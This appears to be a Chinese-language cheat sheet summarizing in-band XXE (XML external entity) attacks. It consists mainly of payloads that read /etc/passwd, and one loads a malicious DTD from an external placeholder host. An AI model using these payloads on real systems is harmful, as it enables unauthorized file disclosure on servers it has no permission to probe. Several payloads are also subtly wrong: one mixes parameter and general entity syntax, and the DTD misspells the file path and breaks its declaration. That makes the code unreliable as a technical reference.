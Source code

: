 ```yaml
---
title: "XXE 有回显利用方式总结"
id: zhfly3587
---
```


## XXE 有回显利用方式总结

结合外部实体声明（实体名称 SYSTEM ”uri/url“）和参数实体（% 实体名称 SYSTEM “uri-外部dtd”）有两种方式进行注入攻击

### 姿势一

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
    <!ELEMENT name ANY >
    <!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
<root>
    <name>&xxe;</name>
</root> 
```

### 姿势二

```
<!DOCTYPE foo [<!ELEMENT foo ANY>
<!ENTITY % xxe SYSTEM "file:///etc/passwd">]>
<foo>&xxe;</foo> 
```

### 姿势三

```
<!DOCTYPE foo [<!ELEMENT foo ANY>
<!ENTITY % xxe SYSTEM "http://xxx/evil.dtd">
%xxe;]>
<foo>&evil;</foo> 
```

##### 外部evil.dtd的内容

```
<!ENTITY %evil SYSTEM "file:///ect/passwd"> 
```